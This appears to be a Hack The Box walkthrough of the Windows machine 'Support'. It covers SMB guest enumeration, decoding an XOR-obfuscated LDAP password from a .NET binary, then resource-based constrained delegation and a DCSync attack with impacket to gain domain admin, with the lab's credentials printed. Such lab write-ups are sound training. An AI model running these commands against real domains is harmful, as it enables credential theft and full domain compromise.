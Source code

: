 
---
title : "[HTB] Windows Machine: Support"
date: 2025-05-09 00:00:00 +0800
tags: [ad,htb, practice, rcbd, dcsync]
categories: [ad,htb, practice, rcbd, dcsync]
---
# Enumeration

## Port scan

```
# Nmap 7.94SVN scan initiated Fri May  9 21:07:56 2025 as: /usr/lib/nmap/nmap -sC -sV -vv -oN ports -T4 -p- 10.10.11.174
Nmap scan report for 10.10.11.174
Host is up, received echo-reply ttl 127 (0.13s latency).
Scanned at 2025-05-09 21:07:56 CEST for 366s
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-09 19:12:28Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49682/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49697/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49740/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-09T19:13:20
|_  start_date: N/A
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 19493/tcp): CLEAN (Timeout)
|   Check 2 (port 6220/tcp): CLEAN (Timeout)
|   Check 3 (port 45724/udp): CLEAN (Timeout)
|   Check 4 (port 14255/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May  9 21:14:02 2025 -- 1 IP address (1 host up) scanned in 366.26 seconds

```

# Exploitation

## SMB Guest

The SMB share allows the access as the `guest` user.

```bash
nxc smb support.htb -u 'guest' -p '' --shares
```

![](/assets/Support/Support-SMBGuest.png)

Since we have read access over `IPC$` we can also enumerate the users.

```bash
nxc smb support.htb -u 'guest' -p '' --rid-brute
```

By enumerating the share `support-tools` we find a custom binary named UserInfo.exe.zip

```
smbclient -U support.htb/Guest "\\\\support.htb\\support-tools"
```

![](/assets/Support/Support-Shares.png)


## Decrypting password

Since this is a `.NET` binary it can be disassembled by using `ilspy`. Here we can find three things:
* A valid username, which is `ldap` (we already knew this from the `--rid-brute` enumeration)
* An encrypted password and the used key
* The encryption algorithm

![](/assets/Support/Support-Username.png)

![](/assets/Support/Support-EncAndKey.png)


![](/assets/Support/Support-EncryptionAlgorithm.png)

```text
0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E
```

```c#
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

```c#
// UserInfo, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null  
// UserInfo.Services.Protected  
using System;  
using System.Text;  
  
public static string getPassword()  
{  
    byte[] array = Convert.FromBase64String(enc_password);  
    byte[] array2 = array;  
    for (int i = 0; i < array.Length; i++)  
    {  
        array2[i] = (byte)(array[i] ^ key[i % key.Length] ^ 0xDF);  
    }  
    return Encoding.Default.GetString(array2);  
}
```
This encryption can be easily reversed by using the following python script

```python
import base64


password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando".encode('utf-8')

print(key)
password_bytes = base64.b64decode(password)
plaintex = []
for idx,b in enumerate(password_bytes):
    plaintex.append(chr(b^223^key[idx%len(key)]))

print(''.join(plaintex))
```

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

## From ldap user to support user

Since now we have the credentials for a domain user we can enumerate the domain. We can start by looking at the users:
```bash
ldapsearch -x -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "(objectClass=person)"
```

Here we can notice that the user `support` has the `info` parameter populated by a string. This is the plaintext password of the `support` user.

![](/assets/Support/Support-SupportPassword.png)

```
support:Ironside47pleasure40Watchful
```


## From support user to Domain Admin

By looking at the bloodhound output, now we can notice that the `support` user has `GenericWrite` over the domain controller. 

![](/assets/Support/Support-GenericAllOnDC.png)

Since the **machine account quota** for the user `support` is set to 10 (the default), we can abuse this misconfiguration by using `resource-based constrained delegation`

![](/assets/Support/Support-MAQ.png)


We add a new computer to the domain:
```
impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host dc.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```
We set the `rbcd` on the DC

```
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'dc$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

We impersonate the `Administrator` user and we request a TGS ticket for the `LDAP` service

```
impacket-getST -spn 'ldap/dc.support.htb' -impersonate 'Administrator' 'support.htb/attackersystem$:Summer2018!'
```

With this ticket we can perform a `DCSync` attack.

```
export KRB5CCNAME=Administrator@ldap_dc.support.htb@SUPPORT.HTB.ccache
impacket-secretsdump -k -no-pass dc.support.htb
```


